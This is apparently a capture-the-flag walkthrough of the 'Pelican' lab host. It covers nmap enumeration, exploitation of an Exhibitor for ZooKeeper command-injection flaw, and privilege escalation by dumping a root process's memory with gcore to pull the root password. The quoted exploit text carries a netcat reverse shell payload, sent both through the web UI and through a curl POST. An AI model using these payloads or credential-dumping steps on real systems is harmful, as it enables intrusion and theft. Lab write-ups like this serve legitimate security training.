# Network Enumeration

```bash
nmap -r -v --min-rate=1500 -p- -oN 001-nmap-tcp-full  192.168.183.98
PORT      STATE SERVICE
22/tcp    open  ssh
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
631/tcp   open  ipp
2181/tcp  open  eforward
2222/tcp  open  EtherNetIP-1
8080/tcp  open  http-proxy
8081/tcp  open  blackice-icecap
41665/tcp open  unknown

┌──(aaron㉿aacai)-[~/Desktop/pg/Pelican]         
└─$ sudo nmap -p139,445,631,2181,2222,8080,8081,41665 -A 192.168.183.98
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-17 05:47 +0330                                    
Nmap scan report for 192.168.183.98           
Host is up (0.28s latency).                                           
PORT      STATE SERVICE     VERSION    
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  g      Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)                                       
631/tcp   open  ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10    
|_http-server-header: CUPS/2.2 IPP/2.1                                              
| http-methods: 
|_  Potentially risky methods: PUT  
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014) 
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)                 
8080/tcp  open  http        Jetty 1.0                                                                              
|_http-server-header: Jetty(1.0)                                                                                   
|_http-title: Error 404 Not Found                                                                                  
8081/tcp  open  http        nginx 1.14.2                                                                           
|_http-server-header: nginx/1.14.2                                                                                 
|_http-title: Did not follow redirect to http://192.168.183.98:8080/exhibitor/v1/ui/index.html                     
41665/tcp open  java-rmi    Java RMI                                                                               
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port              
Aggressive OS guesses: Linux 2.6.18 (87%), Linux 4.15 - 5.8 (87%), Linux 5.0 - 5.4 (87%), Linux 2.6.32 (87%), Linux 2.6.32 or 3.10 (87%), Linux 3.5 (87%), Linux 4.4 (87%), Synology DiskStation Manager 5.1 (87%), WatchGuard Fireware
 11.8 (87%), Linux 5.3 - 5.4 (87%)                                                                                 
No exact OS matches for host (test conditions non-ideal).                                                          
Network Distance: 4 hops                                                                                           
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel                                             
```

# Port enumeration

## 8081

The port 8081 will redirect to port `8080/exhibitor/v1/ui/index.html`, that's exhibitor for ZooKeeper and the verion is 1.0. 



Search on google with `exhibitor for zookeeper v1.0`, then the first one return there are `Exhibitor Web UI 1.7.1 - Remote Code Execution`, use the exploit from [exploitdb](https://www.exploit-db.com/exploits/48654).

The description is

```
An exploitable command injection vulnerability exists in the Config editor of the Exhibitor Web UI versions 1.0.9 to 1.7.1. 

The steps to exploit it from a web browser:
    Open the Exhibitor Web UI and click on the Config tab, then flip the Editing switch to ON
    In the “java.env script” field, enter any command surrounded by $() or ``, for example, for a simple reverse shell:
    $(/bin/nc -e /bin/sh 10.0.0.64 4444 &)
    Click Commit > All At Once > OK
    The command may take up to a minute to execute.

It can also be performed with a single curl command:
command: curl -X POST -d @data.json http://10.0.0.200:8080/exhibitor/v1/config/set
data.json: { “zookeeperInstallDirectory”: “/opt/zookeeper”, “zookeeperDataDirectory”: “/opt/zookeeper/snapshots”, “zookeeperLogDirectory”: “/opt/zookeeper/transactions”, “logIndexDirectory”: “/opt/zookeeper/transactions”, “autoManageInstancesSettlingPeriodMs”: “0”, “autoManageInstancesFixedEnsembleSize”: “0”, “autoManageInstancesApplyAllAtOnce”: “1”, “observerThreshold”: “0”, “serversSpec”: “1:exhibitor-demo”, “javaEnvironment”: “$(/bin/nc -e /bin/sh 10.0.0.64 4444 &)”, “log4jProperties”: “”, “clientPort”: “2181”, “connectPort”: “2888”, “electionPort”: “3888”, “checkMs”: “30000”, “cleanupPeriodMs”: “300000”, “cleanupMaxFiles”: “20”, “backupPeriodMs”: “600000”, “backupMaxStoreMs”: “21600000”, “autoManageInstances”: “1”, “zooCfgExtra”: { “tickTime”: “2000”, “initLimit”: “10”, “syncLimit”: “5”, “quorumListenOnAllIPs”: “true” }, “backupExtra”: { “directory”: “” }, “serverId”: 1 }
```

So navigate to config then set the `java.env script`, try to reverse shell.



Then get reverse shel.



# PE

## Information Collection

### Basic Information



### Cronjob



### Active Ports



### Sudo -l



### Users



### Useful software



### Interesting File permission

```bash
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                                                                                                            
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                                                        
strace Not Found                                                                                                                                                                                                                        
-rwsr-xr-- 1 root dip 378K Feb 20  2020 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)                                                                                                                                             
-rwsr-xr-x 1 root root 427K Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 50K Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-sr-x 1 root root 15K Aug 27  2020 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 19K Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 151K Mar 21  2019 /usr/bin/ntfs-3g  --->  Debian9/8/7/Ubuntu/Gentoo/others/Ubuntu_Server_16.10_and_others(02-2017)
-rwsr-xr-x 1 root root 55K Mar  6  2019 /usr/bin/bwrap
-rwsr-xr-x 1 root root 63K Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 51K Jan 10  2019 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 63K Jul 27  2018 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 35K Apr 22  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 83K Jul 27  2018 /usr/bin/gpasswd
-rws--x--x 1 root root 17K Sep 10  2020 /usr/bin/password-store (Unknown SUID binary!)
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 53K Jul 27  2018 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 154K Feb  2  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 35K Jan 10  2019 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 23K Jan 15  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
```

There are ` /usr/bin/password-store` runnning as root, use `sudo -u root /usr/bin/gcore -a -o <outputfile> <pid>` to check the details.

```bash
charles@pelican:/tmp$ ps -ef | grep "password-store"
root       527     1  0 22:08 ?        00:00:00 /usr/bin/password-store
root     24088     1  0 22:45 ?        00:00:00 /usr/bin/password-store
charles  24409 31105  0 22:46 pts/1    00:00:00 grep password-store
```

We got the `password-store` PID, use `gcore` to export.

```bash
charles@pelican:/tmp$ sudo -u root /usr/bin/gcore -a -o /home/charles/output 527
```

Now use `strings` to check information on `output.527`

```bash
charles@pelican:~$ strings output.527
```

Then we can get root password.



Finally get root account.

